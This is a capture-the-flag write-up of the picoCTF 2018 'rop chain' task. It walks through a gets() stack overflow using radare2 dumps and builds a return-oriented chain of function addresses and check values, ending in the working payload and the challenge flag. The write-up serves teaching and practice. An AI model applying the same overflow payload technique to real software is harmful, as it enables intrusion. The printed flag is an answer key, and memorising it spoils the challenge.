 # [rop chain](https://2018game.picoctf.com/problems)


## Problem
Can you exploit the following [program](https://2018shell3.picoctf.com/static/d7b3d809a1a0a71b4d49c6d110977326/rop) and get the flag? You can findi the program in /problems/rop-chain_4_6ba0c7ef5029f471fc2d14a771a8e1b9 on the shell server? [Source](https://2018shell3.picoctf.com/static/d7b3d809a1a0a71b4d49c6d110977326/rop.c).


## Solution

this is actually my first time with rop chains. basically it's a chain of overwritten return-addresses at which you make the instruction pointer go to do what you want. there are tools to automate this process but we'll do this one by hand. glancing at the source cose we can clearly see where we need to hijack the eip each step; something like this, at least as an initial plan: win_function1()->win_function2()->flag().

since i'm using radare2 for debug, i set up the rarun2 profile like this:

```
——> cat rrp.rrp
stdin=./input
aslr=no
```

the aslr part is important otherwise it becomes impossible without making the program leak an address on the stack. then i write the input i would normally give to the program in the file ./input and run r2 -r rrp.rrp. since the buffer is 16 byte, we'll start with 12 and look at the stack

```
——> python -c "print('A' * 12)" > input
[andrei@jacky 00:14:51] ~/Documents/pico
——> xxd input
00000000: 4141 4141 4141 4141 4141 4141 0a         AAAAAAAAAAAA.
——> r2 -Ad rop -r rrp.rrp
Process with PID 32304 started...
[..]
[0xf7fd50b0]> s sym.vuln
[0x08048714]> pdf
/ (fcn) sym.vuln 39
|   sym.vuln ();
|           ; var int local_18h @ ebp-0x18
|           ; CALL XREF from sym.main (0x804877c)
|           0x08048714      55             push ebp
|           0x08048715      89e5           mov ebp, esp
|           0x08048717      83ec18         sub esp, 0x18
|           0x0804871a      83ec0c         sub esp, 0xc
|           0x0804871d      686f890408     push str.Enter_your_input   ; 0x804896f ; "Enter your input> "
|           0x08048722      e8f9fcffff     call sym.imp.printf         ; int printf(const char *format)
|           0x08048727      83c410         add esp, 0x10
|           0x0804872a      83ec0c         sub esp, 0xc
|           0x0804872d      8d45e8         lea eax, [local_18h]
|           0x08048730      50             push eax
|           0x08048731      e8fafcffff     call sym.imp.gets           ; char *gets(char *s)
|           0x08048736      83c410         add esp, 0x10
|           0x08048739      c9             leave
\           0x0804873a      c3             ret
[0x08048714]> db @ 0x08048736

```

by breaking right after the call to gets, we can easily see all our buffer and plan the initial overwrite

```
|[x] StackRefs                                                                                                                                                          |
| 0xffffd870  0xffffd880  .... @esp eax stack R W 0x41414141 (AAAAAAAAAAAA) -->  ascii                                                                                  |
| 0xffffd874  0xf7fe9290  .... (/usr/lib32/ld-2.28.so) library R X 'pop edx' 'ld-2.28.so'                                                                               |
| 0xffffd878  0x00000000  .... ebx                                                                                                                                      |
| 0xffffd87c  0x392e8400  ...9                                                                                                                                          |
| 0xffffd880  0x41414141  AAAA @eax ascii                                                                                                                               |
| 0xffffd884  0x41414141  AAAA ascii                                                                                                                                    |
| 0xffffd888  0x41414141  AAAA ascii                                                                                                                                    |
| 0xffffd88c  0x08048700  .... (.text) (/home/andrei/Documents/pico/rop) sym.flag program R X 'jmp 0x8048712' 'rop'                                                     |
| 0xffffd890  0x000003e8  .... (.symtab)                                                                                                                                |
| 0xffffd894  0x000003e8  .... (.symtab)                                                                                                                                |
| 0xffffd898  0xffffd8b8  .... @ebp stack R W 0x0 -->  ebx                                                                                                              |
| 0xffffd89c  0x08048781  .... (.text) (/home/andrei/Documents/pico/rop) sym.main program R X 'mov eax, 0' 'rop'                                                        |
| 0xffffd8a0  0x00000001  .... (.comment)                                                                                                                               |

:> dbt
0  0x8048736  sp: 0x0         0    [sym.vuln]   
1  0xf7fe9290 sp: 0xffffd874  4    [??]  map.usr_lib32_ld_2.28.so.r_x+82576
2  0x8048781  sp: 0xffffd89c  40   [sym.main]  main+70
3  0xf7fe9290 sp: 0xffffd924  136  [??]  map.usr_lib32_ld_2.28.so.r_x+82576
4  0x80484f1  sp: 0xffffd93c  24   [??]  entry0+33
```

our strings starts at 0xffffd880, and the return address to main+70 is at 0xffffd89c; that's 16 more bytes. so let's modify the input file and run again

```
——> python2 -c "print('A' * 28 + '\xcb\x85\x04\x08')" > input
```

we succesfully entered the win_function1; on its ```pop ebp``` instruction the (interesting part of) stack layout is this:

```
0xffffd89c  0x41414141  AAAA @ebp ascii
0xffffd8a0  0x00000000  .... ebx
```

with esp at 0xffffd89c. so it will put 0x41414141 into ebp and return to 0x00000000. no good, we need to replace that return addresses. let's put the address of win_function2 there

```
——> python2 -c "print('A' * 28 + '\xcb\x85\x04\x08\xd8\x85\x04\x08')" > input
——> xxd input
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 cb85 0408  AAAAAAAAAAAA....
00000020: d885 0408 0a                             .....


```

ok it enters win_function2, but then it checks if arg_check1 is 0xbaaaaaad:

```
:> pdf @ sym.win_function2
            ;-- eip:
/ (fcn) sym.win_function2 83
|   sym.win_function2 (int arg_8h);
|           ; arg int arg_8h @ ebp+0x8
|           0x080485d8      55             push ebp
|           0x080485d9      89e5           mov ebp, esp
|           0x080485db      83ec08         sub esp, 8
|           0x080485de      0fb60541a004.  movzx eax, byte obj.win1    ; [0x804a041:1]=1
|           0x080485e5      84c0           test al, al
|       ,=< 0x080485e7      7412           je 0x80485fb
|       |   0x080485e9      817d08adaaaa.  cmp dword [arg_8h], 0xbaaaaaad ; [0xbaaaaaad:4]=-1
|      ,==< 0x080485f0      7509           jne 0x80485fb
```

we can see that it grabs arg_check1 from ebp+8. the value that goes into ebp is the esp at the entrance into the function, so 0xffffd8a0, so we need to write on 0xffffd8a8

this is the stack now
```
:> px 128 @ esp - 64
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffd860  243e f9f7 243e f9f7 98d8 ffff 3687 0408  $>..$>......6...
0xffffd870  80d8 ffff 9092 fef7 0000 0000 0082 6583  ..............e.
0xffffd880  adaa aaba 4141 4141 4141 4141 4141 4141  ....AAAAAAAAAAAA
0xffffd890  4141 4141 4141 4141 78d8 ffff 78d8 ffff  AAAAAAAAx...x...
0xffffd8a0  78d8 ffff 00d9 ffff 6cd9 ffff e803 0000  x.......l.......
```

and this is at right after our buffer is copied on the stack

```
:> px 64 @ esp
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffd870  80d8 ffff 9092 fef7 0000 0000 0014 4367  ..............Cg
0xffffd880  4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0xffffd890  4141 4141 4141 4141 4141 4141 cb85 0408  AAAAAAAAAAAA....
0xffffd8a0  d885 0408 00d9 ffff 6cd9 ffff e803 0000  ........l.......
```

let's just write onto it and hope it doesn't screw up

```
——> python2 -c "print('A' * 28 + '\xcb\x85\x04\x08\xd8\x85\x04\x08BBBB\xad\xaa\xaa\xba')" > input
——> xxd input
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 cb85 0408  AAAAAAAAAAAA....
00000020: d885 0408 4242 4242 adaa aaba 0a         ....BBBB.....
```

it works fine. as we can see we got both the flags set to true

```
:> px @ obj.win1
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x0804a041  01                                       .
:> px @ obj.win2
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x0804a042  01                                       .
```

at the next ret instruction, it will go to ```0xffffd8a4  0x42424242  BBBB @esp ascii```, so we'll just but the address of flag() there

```
——> python2 -c "print('A' * 28 + '\xcb\x85\x04\x08\xd8\x85\x04\x08\x2b\x86\x04\x08\xad\xaa\xaa\xba')" > input && xxd input
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 cb85 0408  AAAAAAAAAAAA....
00000020: d885 0408 2b86 0408 adaa aaba 0a         ....+........
```

this will also check for the value 0xdeadbaad in arg_check2 in ebp+8. base pointer will be 0xffffd8a4, so we'll need to write on 0xffffd8ac, right after arg_check1

```
——> python2 -c "print('A' * 28 + '\xcb\x85\x04\x08\xd8\x85\x04\x08\x2b\x86\x04\x08\xad\xaa\xaa\xba\xad\xba\xad\xde')" > input && xxd input
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 cb85 0408  AAAAAAAAAAAA....
00000020: d885 0408 2b86 0408 adaa aaba adba adde  ....+...........
00000030: 0a                                       .
```

check okay, and it prints the flag. congratulations to me for my first rop thing lol

```
xnand@pico-2018-shell-3:/problems/rop-chain_4_6ba0c7ef5029f471fc2d14a771a8e1b9$ ./rop <<< $(python2 -c "print('A' * 28 + '\xcb\x85\x04\x08\xd8\x85\x04\x08\x2b\x86\x04\x08\xad\xaa\xaa\xba\xad\xba\xad\xde')")
Enter your input> picoCTF{rOp_aInT_5o_h4Rd_R1gHt_718e6c5c}
Segmentation fault (core dumped)
```
